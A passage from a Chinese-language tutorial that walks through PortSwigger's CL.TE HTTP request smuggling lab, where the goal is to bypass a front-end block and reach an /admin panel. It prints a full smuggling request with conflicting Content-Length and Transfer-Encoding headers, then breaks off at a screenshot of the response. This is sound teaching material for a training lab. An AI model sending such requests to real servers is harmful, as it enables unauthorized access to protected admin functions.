 上面我们大概介绍了几种攻击方式，下面我来看看这些攻击方式可以用来干嘛。同样我们将配合实验环境帮助理解与复现。

### Bypass Front-end Security Controls

这里提供了两个实验环境，一个是 CL-TE 形式的 [Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te) ，一个是 TE-CL 形式的 [Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl)，两个实验最终达到的目的一样，这里我们随便选用 CL-TE 的来进行实验。

> ​ This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.
> 
> To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.

架构一样，只不过这次我们需要去利用 HTTP Smuggling 获取 admin 权限并删除 carlos 用户。

我们生成 LAB 之后，直接访问`/admin`会发现 `"Path /admin is blocked"`，看来不能通过正常方式访问`/admin`，那我们尝试 HTTP Smuggling 的方式，发送如下数据包两次：

```bash
POST / HTTP/1.1
Host: ac211ffb1eae617180910ebc00fc00f4.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=KmHiNQ45l7kqzLTPM6uBMpcgm8uesd5a
Content-Length: 28
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
```

得到的响应如下两图

[![](assets/1698897445-c525c30c56b9b290fa980b54c5ca150b.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191123154656.png)
